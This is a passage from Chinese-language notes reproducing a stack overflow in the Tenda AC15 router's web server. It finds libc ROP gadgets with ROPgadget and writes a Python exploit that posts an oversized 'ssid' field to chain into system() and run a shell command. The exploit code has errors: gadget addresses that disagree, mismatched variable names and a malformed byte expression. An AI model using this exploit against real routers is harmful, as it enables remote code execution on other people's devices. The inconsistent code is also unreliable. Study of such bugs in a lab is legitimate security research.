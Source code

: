 32、这时我们可以猜想汇编应该是这个样子的

~~~apl
mv r0 , sp ; blx 
~~~

33、我们使用ropgadget去尝试查找

~~~apl
ROPgadget --binary ../../gujian/squashfs-root/1ib/1ibc.so.0 | grep "mov r0,sp:blx"
~~~

![](/Users/Hacker_learn/Cybersecurity_Note/IoT_Security/Vulnerability_Reproduction_Notes/Tenda_AC_15/img/ac-8.png)

~~~apl
ROPgadget --binary ../../gujian/squashfs-root/1ib/1ibc.so.0 --only pop
~~~

![](/Users/Hacker_learn/Cybersecurity_Note/IoT_Security/Vulnerability_Reproduction_Notes/Tenda_AC_15/img/ac-9.png)

34、通过上述2步可以知道

~~~apl
我们的 mov_addr=0x00040cb4  pop_addr=0x00018298
~~~

35、现在我们可以构造ROP了

~~~apl
import requests
from pwn import *
target_ip="192.168.3.3"
target_port=80

ji_addr=0x76dab000  # 基地址 libc 的地址
system_addr=0x5A270 # libc中的system函数作为跳转
pop_addr=0x18298
mov_addr=0x49c64

one_jg_addr=ji_addr + 0x00064144 # 为了去填充下面的src(str类型)
two_jp_addr=ji_addr + pop_addr
three_jp_addr=ji_addr + system_addr
end_jp_addr=ji_addr + mov_addr

cmd='ps>aaaaaaaaaaaaaaaa.txt'

payload=b'a'*(0x60)+p32(one_jp_addr)+b'b'(0x18)+p32(two_jp_addr)+p32(three_addr)+p32(end_jp_addr)

url=f"http://192.168.3.3/gofrom/fast_setting_wifi_set"
cookie={"Cookie":"password=qweqwe"}
data={"ssid":payload}

response=requests.post(url,cookies=cookie,data=data)
response=requests.post(url,cookies=cookie,data=data)
~~~

36、我们的`ROP` 已经构造完成，接下启动 httpd 服务、gdbserver 服务。并链接 gdbserver
